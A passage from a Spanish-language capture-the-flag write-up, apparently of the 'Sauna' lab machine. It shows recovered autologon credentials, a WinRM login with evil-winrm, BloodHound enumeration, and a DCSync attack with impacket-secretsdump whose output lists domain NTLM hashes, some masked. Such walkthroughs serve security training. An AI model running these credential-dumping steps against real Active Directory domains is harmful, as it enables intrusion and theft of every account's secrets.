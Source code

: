 ~~~powershell
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mo<SNIP>d!

ÉÍÍÍÍÍÍÍÍÍÍ¹ Password Policies
<SNIP>
~~~
Como siempre digo, toda contraseña que se encuentra, se la guarda.

### Acceso al usuario svc_loanmgr
Se probaron las credenciales con winrm para el usuario svc_loanmgr, descubriendo que si son credenciales validas.
~~~powerahell
evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Mo<SNIP>d!'   
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>
~~~
Revisando y realizando enumeración manual no se pudo encontrar nada útil ni importante, de igual manera usando una herramienta como winpeas, por lo que se recurrio a realizar un analisis con bloodhound.
~~~bash
bloodhound-python -u svc_loanmgr -p 'Mo<SNIP>d!' -c All -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
~~~

### Aprovechando DCSync
Al ver los permisos del usuario svc_loanmgr, se puede ver que tiene permisos dcsync sobre el dominio, por lo que aprovechando ese permiso de procede a dumpear toda la base de datos NTDS.
![[sauna2.jpg]]
~~~
impacket-secretsdump 'EGOTISTICAL-BANK.LOCAL/svc_loanmgr:Mo<SNIP>d!'@10.10.10.175
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:82<SNIP>8e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:3<SNIP>c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a<SNIP>2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:c7<SNIP>47:::
[*] Kerberos keys grabbed
~~~